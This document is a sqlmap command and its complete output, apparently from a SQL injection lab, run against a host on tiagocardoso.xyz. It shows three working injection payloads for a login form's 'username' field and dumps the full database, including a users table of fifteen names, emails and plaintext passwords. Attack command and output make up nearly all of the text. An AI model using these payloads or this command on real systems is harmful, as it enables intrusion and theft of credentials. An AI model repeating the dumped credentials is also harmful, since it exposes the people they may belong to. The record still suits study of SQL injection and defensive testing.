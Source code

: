 
Command
```shell
sqlmap -r burp --cookie="PHPSESSID=2v1mpaceu5oh3smbn23e4l2r1j" --batch --dbs --dump | tee output-sqlmap.txt
```

---


# Output
---

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.2#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:33:02 /2025-07-04/

[17:33:02] [INFO] parsing HTTP request from 'burp'
[17:33:02] [INFO] resuming back-end DBMS 'mysql' 
[17:33:02] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: username=-3456' OR 6429=6429#&password=1

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=1' AND (SELECT 5745 FROM(SELECT COUNT(*),CONCAT(0x71787a7671,(SELECT (ELT(5745=5745,1))),0x7170766b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- nnKo&password=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=1' AND (SELECT 1547 FROM (SELECT(SLEEP(5)))Dzip)-- HCce&password=1
---
[17:33:02] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[17:33:02] [INFO] fetching database names
[17:33:02] [INFO] resumed: 'information_schema'
[17:33:02] [INFO] resumed: 'mysql'
[17:33:02] [INFO] resumed: 'performance_schema'
[17:33:02] [INFO] resumed: 'sql_injection'
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sql_injection

[17:33:02] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[17:33:02] [INFO] fetching current database
[17:33:02] [INFO] resumed: 'sql_injection'
[17:33:02] [INFO] fetching tables for database: 'sql_injection'
[17:33:02] [INFO] resumed: 'images'
[17:33:02] [INFO] resumed: 'users'
[17:33:02] [INFO] resumed: 'stocks'
[17:33:02] [INFO] fetching columns for table 'users' in database 'sql_injection'
[17:33:02] [INFO] resumed: 'id'
[17:33:02] [INFO] resumed: 'int(6)'
[17:33:02] [INFO] resumed: 'username'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] resumed: 'email'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] resumed: 'password'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] resumed: 'name'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] resumed: 'surname'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] fetching entries for table 'users' in database 'sql_injection'
[17:33:02] [INFO] resumed: 'Angelo'
[17:33:02] [INFO] resumed: 'ephraim_frits@supermail.com'
[17:33:02] [INFO] resumed: '1'
[17:33:02] [INFO] resumed: 'ii7phaufuGah'
[17:33:02] [INFO] resumed: 'Williams'
[17:33:02] [INFO] resumed: 'angelo12'
[17:33:02] [INFO] resumed: 'John'
[17:33:02] [INFO] resumed: 'JohnDMoore@dayrep.com'
[17:33:02] [INFO] resumed: '2'
[17:33:02] [INFO] resumed: 'Oir6ot6Aet4'
[17:33:02] [INFO] resumed: 'Moore'
[17:33:02] [INFO] resumed: 'moore'
[17:33:02] [INFO] resumed: 'Nichole'
[17:33:02] [INFO] resumed: 'NicholeWWannamaker@teleworm.us'
[17:33:02] [INFO] resumed: '3'
[17:33:02] [INFO] resumed: 'Baevaed0jah'
[17:33:02] [INFO] resumed: 'Wannamaker'
[17:33:02] [INFO] resumed: 'nicool'
[17:33:02] [INFO] resumed: 'Lewis'
[17:33:02] [INFO] resumed: 'LewisLSing@teleworm.us'
[17:33:02] [INFO] resumed: '4'
[17:33:02] [INFO] resumed: 'aeShek9d'
[17:33:02] [INFO] resumed: 'Sing'
[17:33:02] [INFO] resumed: 'singlewis'
[17:33:02] [INFO] resumed: 'Rebecca'
[17:33:02] [INFO] resumed: 'RebeccaJRussell@rhyta.com'
[17:33:02] [INFO] resumed: '5'
[17:33:02] [INFO] resumed: 'uQuah5athah'
[17:33:02] [INFO] resumed: 'Russell'
[17:33:02] [INFO] resumed: 'russrebecca'
[17:33:02] [INFO] resumed: 'Arthur'
[17:33:02] [INFO] resumed: 'ArthurHNadeau@dayrep.com'
[17:33:02] [INFO] resumed: '6'
[17:33:02] [INFO] resumed: 'to4ixia7C'
[17:33:02] [INFO] resumed: 'Nadeau'
[17:33:02] [INFO] resumed: 'arthurnad'
[17:33:02] [INFO] resumed: 'teadorate'
[17:33:02] [INFO] resumed: 'temojev119@drlatvia.com'
[17:33:02] [INFO] resumed: '7'
[17:33:02] [INFO] resumed: 'temojev119'
[17:33:02] [INFO] resumed: 'macheal'
[17:33:02] [INFO] resumed: 'teador'
[17:33:02] [INFO] resumed: 'Mary'
[17:33:02] [INFO] resumed: 'MaryGChatterton@rhyta.com'
[17:33:02] [INFO] resumed: '8'
[17:33:02] [INFO] resumed: 'Iequahx4'
[17:33:02] [INFO] resumed: 'G.Chatterton'
[17:33:02] [INFO] resumed: 'Thiped'
[17:33:02] [INFO] resumed: 'Carrie'
[17:33:02] [INFO] resumed: 'CarrieDYoung@rhyta.com'
[17:33:02] [INFO] resumed: '9'
[17:33:02] [INFO] resumed: 'kei7Ru4aay'
[17:33:02] [INFO] resumed: 'Young'
[17:33:02] [INFO] resumed: 'Duccoldany'
[17:33:02] [INFO] resumed: 'Karen'
[17:33:02] [INFO] resumed: 'KarenRVelez@rhyta.com'
[17:33:02] [INFO] resumed: '10'
[17:33:02] [INFO] resumed: 'aiPh1aht'
[17:33:02] [INFO] resumed: 'Velez'
[17:33:02] [INFO] resumed: 'Basure'
[17:33:02] [INFO] resumed: 'Virginia'
[17:33:02] [INFO] resumed: 'VirginiaJBryson@jourrapide.com'
[17:33:02] [INFO] resumed: '11'
[17:33:02] [INFO] resumed: 'Oom1dai2Ae'
[17:33:02] [INFO] resumed: 'Bryson'
[17:33:02] [INFO] resumed: 'Lonce1992'
[17:33:02] [INFO] resumed: 'Tiffany'
[17:33:02] [INFO] resumed: 'TiffanyRGriffith@dayrep.com'
[17:33:02] [INFO] resumed: '12'
[17:33:02] [INFO] resumed: 'ieSh6aim'
[17:33:02] [INFO] resumed: 'Griffith'
[17:33:02] [INFO] resumed: 'Lawas1965'
[17:33:02] [INFO] resumed: 'Heather'
[17:33:02] [INFO] resumed: 'HeatherLJohnson@armyspy.com'
[17:33:02] [INFO] resumed: '13'
[17:33:02] [INFO] resumed: 'Fah6einai7s'
[17:33:02] [INFO] resumed: 'Johnson'
[17:33:02] [INFO] resumed: 'Rompubse'
[17:33:02] [INFO] resumed: 'Ramona'
[17:33:02] [INFO] resumed: 'RamonaKWebster@dayrep.com'
[17:33:02] [INFO] resumed: '14'
[17:33:02] [INFO] resumed: 'aeYahm6zee0'
[17:33:02] [INFO] resumed: 'Webster'
[17:33:02] [INFO] resumed: 'Sequand'
[17:33:02] [INFO] resumed: 'Sandra'
[17:33:02] [INFO] resumed: 'andraJFraser@teleworm.us'
[17:33:02] [INFO] resumed: '15'
[17:33:02] [INFO] resumed: 'Oemeey3uji'
[17:33:02] [INFO] resumed: 'Fraser'
[17:33:02] [INFO] resumed: 'Moret1948'
Database: sql_injection
Table: users
[15 entries]
+----+--------------------------------+-----------+--------------+--------------+-------------+
| id | email                          | name      | surname      | password     | username    |
+----+--------------------------------+-----------+--------------+--------------+-------------+
| 1  | ephraim_frits@supermail.com    | Angelo    | Williams     | ii7phaufuGah | angelo12    |
| 2  | JohnDMoore@dayrep.com          | John      | Moore        | Oir6ot6Aet4  | moore       |
| 3  | NicholeWWannamaker@teleworm.us | Nichole   | Wannamaker   | Baevaed0jah  | nicool      |
| 4  | LewisLSing@teleworm.us         | Lewis     | Sing         | aeShek9d     | singlewis   |
| 5  | RebeccaJRussell@rhyta.com      | Rebecca   | Russell      | uQuah5athah  | russrebecca |
| 6  | ArthurHNadeau@dayrep.com       | Arthur    | Nadeau       | to4ixia7C    | arthurnad   |
| 7  | temojev119@drlatvia.com        | teadorate | macheal      | temojev119   | teador      |
| 8  | MaryGChatterton@rhyta.com      | Mary      | G.Chatterton | Iequahx4     | Thiped      |
| 9  | CarrieDYoung@rhyta.com         | Carrie    | Young        | kei7Ru4aay   | Duccoldany  |
| 10 | KarenRVelez@rhyta.com          | Karen     | Velez        | aiPh1aht     | Basure      |
| 11 | VirginiaJBryson@jourrapide.com | Virginia  | Bryson       | Oom1dai2Ae   | Lonce1992   |
| 12 | TiffanyRGriffith@dayrep.com    | Tiffany   | Griffith     | ieSh6aim     | Lawas1965   |
| 13 | HeatherLJohnson@armyspy.com    | Heather   | Johnson      | Fah6einai7s  | Rompubse    |
| 14 | RamonaKWebster@dayrep.com      | Ramona    | Webster      | aeYahm6zee0  | Sequand     |
| 15 | andraJFraser@teleworm.us       | Sandra    | Fraser       | Oemeey3uji   | Moret1948   |
+----+--------------------------------+-----------+--------------+--------------+-------------+

[17:33:02] [INFO] table 'sql_injection.users' dumped to CSV file '/home/espada/.local/share/sqlmap/output/lzwdgttvhlknjbblqadq.tiagocardoso.xyz/dump/sql_injection/users.csv'
[17:33:02] [INFO] fetching columns for table 'images' in database 'sql_injection'
[17:33:02] [INFO] resumed: 'id'
[17:33:02] [INFO] resumed: 'int(11)'
[17:33:02] [INFO] resumed: 'path'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] fetching entries for table 'images' in database 'sql_injection'
[17:33:02] [INFO] resumed: 'images/1.png'
[17:33:02] [INFO] resumed: '1'
[17:33:02] [INFO] resumed: 'images/2.png'
[17:33:02] [INFO] resumed: '2'
[17:33:02] [INFO] resumed: 'images/3.png'
[17:33:02] [INFO] resumed: '3'
[17:33:02] [INFO] resumed: 'images/4.png'
[17:33:02] [INFO] resumed: '4'
[17:33:02] [INFO] resumed: 'images/5.png'
[17:33:02] [INFO] resumed: '5'
[17:33:02] [INFO] resumed: 'images/6.png'
[17:33:02] [INFO] resumed: '6'
[17:33:02] [INFO] resumed: 'images/7.png'
[17:33:02] [INFO] resumed: '7'
[17:33:02] [INFO] resumed: 'images/8.png'
[17:33:02] [INFO] resumed: '8'
[17:33:02] [INFO] resumed: 'images/9.png'
[17:33:02] [INFO] resumed: '9'
[17:33:02] [INFO] resumed: 'images/10.png'
[17:33:02] [INFO] resumed: '10'
Database: sql_injection
Table: images
[10 entries]
+----+---------------+
| id | path          |
+----+---------------+
| 1  | images/1.png  |
| 2  | images/2.png  |
| 3  | images/3.png  |
| 4  | images/4.png  |
| 5  | images/5.png  |
| 6  | images/6.png  |
| 7  | images/7.png  |
| 8  | images/8.png  |
| 9  | images/9.png  |
| 10 | images/10.png |
+----+---------------+

[17:33:02] [INFO] table 'sql_injection.images' dumped to CSV file '/home/espada/.local/share/sqlmap/output/lzwdgttvhlknjbblqadq.tiagocardoso.xyz/dump/sql_injection/images.csv'
[17:33:02] [INFO] fetching columns for table 'stocks' in database 'sql_injection'
[17:33:02] [INFO] resumed: 'id'
[17:33:02] [INFO] resumed: 'int(11)'
[17:33:02] [INFO] resumed: 'name'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] fetching entries for table 'stocks' in database 'sql_injection'
[17:33:02] [INFO] resumed: 'iphone11'
[17:33:02] [INFO] resumed: '1'
[17:33:02] [INFO] resumed: 'applewatch7'
[17:33:02] [INFO] resumed: '2'
[17:33:02] [INFO] resumed: 'iphone13'
[17:33:02] [INFO] resumed: '3'
[17:33:02] [INFO] resumed: 'iphonese'
[17:33:02] [INFO] resumed: '4'
[17:33:02] [INFO] resumed: 'apple20w'
[17:33:02] [INFO] resumed: '5'
Database: sql_injection
Table: stocks
[5 entries]
+----+-------------+
| id | name        |
+----+-------------+
| 1  | iphone11    |
| 2  | applewatch7 |
| 3  | iphone13    |
| 4  | iphonese    |
| 5  | apple20w    |
+----+-------------+

[17:33:02] [INFO] table 'sql_injection.stocks' dumped to CSV file '/home/espada/.local/share/sqlmap/output/lzwdgttvhlknjbblqadq.tiagocardoso.xyz/dump/sql_injection/stocks.csv'
[17:33:02] [INFO] fetched data logged to text files under '/home/espada/.local/share/sqlmap/output/lzwdgttvhlknjbblqadq.tiagocardoso.xyz'

[*] ending @ 17:33:02 /2025-07-04/


